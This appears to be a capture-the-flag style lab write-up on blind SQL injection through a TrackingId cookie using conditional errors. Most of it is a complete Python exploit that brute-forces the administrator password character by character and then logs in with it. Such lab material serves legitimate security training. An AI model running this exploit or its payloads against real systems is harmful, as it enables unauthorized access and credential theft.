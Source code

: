 ```yaml
---
title: 'SQLi Lab 12'
description: 'Blind SQL injection exploiting conditional errors to extract administrator password'
---
```



## Blind SQL injection with conditional errors

<div style="text-align: justify;">
  This lab demonstrates a blind SQL injection vulnerability using conditional errors. The application uses a tracking cookie, which is incorporated into SQL queries. The query does not return results directly, but triggers a custom error message when a condition is true (for example, divide-by-zero). By iteratively testing conditions, such as the existence of the `administrator` user or the length and characters of their password, it is possible to extract sensitive data without direct output.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to SQL injection.
- Append a single quote `'` to confirm SQL errors.
- Use `CASE WHEN` and divide-by-zero to trigger conditional errors.
- Test the existence of entries, determine password length, and extract each character sequentially.
- Use Burp Intruder with payloads for `a-z` and `0-9` to automate password extraction.
- Finally, log in with the extracted administrator credentials to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Route through Burp
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}

# Alphabet to brute force (lowercase + digits as per lab hint)
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

def send_payload(url, tracking_id, session_cookie, payload):
    """Send request with injected payload, return True if error (500) occurs."""
    cookies = {
        "TrackingId": tracking_id + payload,
        "session": session_cookie
    }
    res = requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=5)
    return res.status_code == 500  # 500 means condition is true

def extract_password(url, tracking_id, session_cookie, length=20):
    """Extract administrator password character by character."""
    password = ""

    for i in range(1, length + 1):  # Positions start at 1
        for c in CHARSET:
            payload = (
                f"'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{c}' "
                f"THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            )
            if send_payload(url, tracking_id, session_cookie, payload):
                password += c
                print(f"[+] Found char {i}: {c} -> {password}")
                break
    return password

def login_and_check(url, username, password):
    """Login with stolen creds and check if lab is solved."""
    session = requests.Session()
    login_url = url.rstrip("/") + "/login"

    # Step 1: Fetch CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login
    data = {"csrf": csrf_token, "username": username, "password": password}
    res = session.post(login_url, data=data, verify=False, proxies=proxies)

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in, but lab not solved yet.")
    else:
        print("[-] Login failed.")
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        sys.exit(1)

    url = sys.argv[1]

    # Step 1: Grab initial cookies
    r = requests.get(url, verify=False, proxies=proxies)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to retrieve cookies")
        sys.exit(1)

    print(f"[*] Using TrackingId={tracking_id}, session={session_cookie}")

    # Step 2: Extract password
    password = extract_password(url, tracking_id, session_cookie, length=20)
    print(f"[+] Extracted password: {password}")

    # Step 3: Login and check if solved
    login_and_check(url, "administrator", password)

if __name__ == "__main__":
    main()
```
